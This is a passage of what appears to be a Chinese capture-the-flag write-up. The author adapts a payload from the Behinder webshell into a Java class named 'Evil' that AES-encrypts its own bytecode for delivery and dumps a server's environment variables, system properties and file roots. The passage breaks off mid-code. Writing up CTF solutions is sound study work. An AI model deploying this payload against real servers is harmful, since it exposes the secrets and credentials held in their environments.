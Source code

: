 ```java
    }
}

```

看这样子是输出env还有一些系统基础的东西，也没有涉及到命令执行，所以可能就是flag在环境变量里。所以其实直接把`System.getenv()`的结果输出出来可能也能得到flag，为了保险把冰蝎的这个basicInfo魔改一下：

```java
package com.feng.test;

import javassist.ClassPool;
import javassist.CtClass;
import java.util.Map.Entry;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;
import java.lang.reflect.Method;
import java.util.*;

public class Evil {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("com.feng.test.Evil");
        byte[] code = clazzz.toBytecode();
        String k = "e45e329feb5d925b";
        Cipher c = Cipher.getInstance("AES");
        c.init(1, new SecretKeySpec(k.getBytes(), "AES"));
        byte[] bytes = c.doFinal(code);
        String str = new String(Base64.getEncoder().encode(bytes));
        System.out.println(str);
    }
    //HttpServletRequest request, HttpServletResponse response
    public void e(Object req,Object resp) throws Exception{
        HttpServletResponse response = (HttpServletResponse) resp;
        String result = "";

        try {
            StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
            Map<String, String> env = System.getenv();
            Iterator var5 = env.keySet().iterator();

            while(var5.hasNext()) {
                String name = (String)var5.next();
                basicInfo.append(name + "=" + (String)env.get(name) + "<br/>");
            }

            basicInfo.append("<br/><font size=2 color=red>JRE系统属性:</font><br/>");
            Properties props = System.getProperties();
            Set<Entry<Object, Object>> entrySet = props.entrySet();
            Iterator var7 = entrySet.iterator();

            while(var7.hasNext()) {
                Entry<Object, Object> entry = (Entry)var7.next();
                basicInfo.append(entry.getKey() + " = " + entry.getValue() + "<br/>");
            }

            String currentPath = (new File("")).getAbsolutePath();
            String driveList = "";
            File[] roots = File.listRoots();
            File[] var10 = roots;
```